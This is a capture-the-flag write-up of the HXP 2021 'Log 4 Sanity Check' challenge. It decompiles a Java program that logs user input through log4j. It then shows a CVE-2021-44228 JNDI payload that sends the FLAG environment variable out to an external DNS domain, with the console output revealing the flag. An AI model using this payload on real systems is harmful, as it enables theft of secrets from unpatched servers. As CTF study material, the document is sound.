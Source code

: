 ```yaml
---
title: "HXP 2021 - Log 4 Sanity Check (Misc)"
header:
  overlay_image: /assets/images/hxp-2021/header.png
  overlay_filter: 0.5
  caption: "Photo credit: HXP CTF Organisers"

tags:
  - hxp
  - writeup
  - misc
  - log4j
  - java
---
```


Summary: Exploit log4j vulnerability to leak environment variables.

## Challenge Prompt

```
Log 4 sanity check
by 0xbb
misc baby
Difficulty estimate: easy - easy

Points: round(1000 · min(1, 10 / (9 + [87 solves]))) = 104 points

Description:
ALARM ALARM

Download:
Log 4 sanity check-9afb8a24feb86db1.tar.xz (1.7 MiB)

Connection (mirrors):
nc 65.108.176.77 1337
```

Attachment: [challenge file]({{ site.url }}{{ site.baseurl }}/assets/files/hxp-2021/Log 4 sanity check-9afb8a24feb86db1.tar.xz)

## Solution

This is a sanity check challenge and so is very easy. A `Vuln.class` is provided in the tar file.
This is decompiled with Procyon:

```java
import org.apache.logging.log4j.Logger;
import java.util.Scanner;
import org.apache.logging.log4j.LogManager;

//
// Decompiled by Procyon v0.5.36
//

public class Vuln
{
    public static void main(final String[] array) {
        try {
            final Logger logger = LogManager.getLogger((Class)Vuln.class);
            System.out.println("What is your favourite CTF?");
            final String next = new Scanner(System.in).next();
            if (next.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }
            if (next.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            }
            else {
                System.out.println(":(");
                logger.error("Wrong answer: {}", (Object)next);
            }
        }
        catch (Exception x) {
            System.err.println(x);
        }
    }
}
```

This is trivially vulnerable to CVE-2021-44228 (not going to call it Log4Shell, that is a stupid
name).

It can be seen from the Dockerfile that the `FLAG` environment variable contains the flag.

```dockerfile
CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"
```

We can leak this with the following string:

```
${jndi:dns://pwn.nandynarwhals.org/leak=${env:FLAG:-lol}}
```

Using this payload leaks the flag in the error messages because the domain name ends up being too
long.

```console
nc 65.108.176.77 1337
What is your favourite CTF?
${jndi:dns://pwn.nandynarwhals.org/leak=${env:FLAG:-lol}}
:(
2021-12-19 21:15:06,116 main WARN Error looking up JNDI resource [dns://border.spro.ink/leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}]. javax.naming.InvalidNameException: Label exceeds 63 octets: leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}; remaining name 'leak=hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}'
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.verifyLabel(DnsName.java:487)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.add(DnsName.java:306)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.parse(DnsName.java:446)
	at jdk.naming.dns/com.sun.jndi.dns.DnsName.<init>(DnsName.java:135)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.fullyQualify(DnsContext.java:588)
	at jdk.naming.dns/com.sun.jndi.dns.DnsContext.c_lookup(DnsContext.java:288)
	at java.naming/com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
    ...
```

**Flag:** `hxp{Phew, I am glad I code everything in PHP anyhow :) - :( :( :(}`
